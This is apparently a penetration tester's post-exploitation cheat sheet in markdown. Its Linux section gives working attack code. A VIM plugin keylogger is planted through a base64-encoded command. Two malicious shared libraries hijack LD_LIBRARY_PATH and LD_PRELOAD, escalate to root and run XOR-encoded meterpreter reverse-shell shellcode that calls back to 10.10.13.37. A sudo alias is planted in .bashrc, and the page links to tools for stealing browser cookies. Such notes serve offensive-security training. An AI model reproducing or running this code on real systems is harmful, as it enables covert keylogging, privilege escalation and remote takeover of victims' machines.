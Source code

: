 ```yaml
---
description: General Post Exploitation
---
```


# Post Exploitation




## Linux



### VIM Keylogger

Create a malicious VIM config that will save contents of a modified file when ran with sudo:

{% code title="settings.vim" %}
```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/tmp0x031337
:endif
```
{% endcode %}

```
$ sudo -u victim mkdir -p /home/victim/.vim/plugin
$ sudo -u victim bash -c 'echo -n OmlmICRVU0VSID09ICJyb290Igo6YXV0b2NtZCBCdWZXcml0ZVBvc3QgKiA6c2lsZW50IDp3ISA+PiAvdG1wL3RtcDB4MDMxMzM3CjplbmRpZgo=|base64 -d > /home/victim/.vim/plugin/settings.vim'
```



### Shared Libraries Hijacking


#### `LD_LIBRARY_PATH`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_LIBRARY_PATH.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_LIBRARY_PATH.c)

For example, target executable will be `/usr/bin/top`.

Code skeleton:

{% code title="fakelib.c" %}
```c
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

static void hijack() __attribute__((constructor));

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

void hijack() {
	setuid(0);
	setgid(0);
	printf("Library hijacked!\n");
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	intptr_t pagesize = sysconf(_SC_PAGESIZE);
	mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC);
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}

Get all shared libraries loaded by target executable:

```
$ ldd /usr/bin/top
...
libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0
```

We'll be targeting the `libgpg-error.so.0` library. Include defined symbols of the original library in our malicious library:

```
$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g' >> fakelib.c
```

Create a map file with version information of defined symbols:

```
$ echo 'GPG_ERROR_1.0 {' > gpg.map
$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g' >> gpg.map
$ echo '};' >> gpg.map
```

Prepare the listener, compile, export `LD_LIBRARY_PATH` and run top:

```
$ gcc -Wall -fPIC -c -o fakelib.o fakelib.c
$ gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 fakelib.o
$ sudo LD_LIBRARY_PATH=/home/snovvcrash/ldlib top
```


#### `LD_PRELOAD`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c)

For example, target executable will be `/bin/cp`.

Determine which functions are executed by `/bin/cp` via `LD_PRELOAD`:

```
$ ltrace cp
...
getuid()
...
```

We'll be hooking the `getuid()` function:

{% code title="evilgetuid.c" %}
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

uid_t geteuid(void)
{
		typeof(geteuid) *getuid_orig;
		getuid_orig = dlsym(RTLD_NEXT, "geteuid");

		if (fork() == 0) // if inside the forked process
		{
				setuid(0);
				setgid(0);
				printf("Function hooked!\n");

				int bufsize = (int)sizeof(buf);
				for (int i = 0; i < bufsize-1; i++) {
					buf[i] = buf[i] ^ 'a';
				}

				intptr_t pagesize = sysconf(_SC_PAGESIZE);
				if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC)) {
						perror("mprotect");
						return -1;
				}

				int (*ret)() = (int(*)())buf;
				ret();
		}
		else // if inside the original process
		{
				printf("Returning from original...\n");
				return (*getuid_orig)();
		}

		printf("Returning from main...\n");
		return -2;
}
```
{% endcode %}

Compile:

```
$ gcc -Wall -fPIC -z execstack -c -o evilgetuid.o evilgetuid.c
$ gcc -shared -o evilgetuid.so evilgetuid.o -ldl
```

Create an evil alias to preserve environment variables when running `cp` with sudo (good candidates are `.bashrc` and `.bash_profile`):

```
alias sudo="sudo LD_PRELOAD=/home/victim/evilgetuid.so"
```

Run the target executable:

```
$ sudo cp /etc/passwd /tmp/passwd
```




## Browsers



### Chrome / Chromium

- [https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949](https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949)


#### cookie_crimes

{% embed url="https://twitter.com/an0n_r0/status/1605714291717554185" %}

- [https://mango.pdf.zone/stealing-chrome-cookies-without-a-password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
- [https://github.com/defaultnamehere/cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)


#### CursedChrome

- [https://www.ired.team/offensive-security/lateral-movement/man-in-the-browser-via-chrome-extension](https://www.ired.team/offensive-security/lateral-movement/man-in-the-browser-via-chrome-extension)
- [https://github.com/mandatoryprogrammer/CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
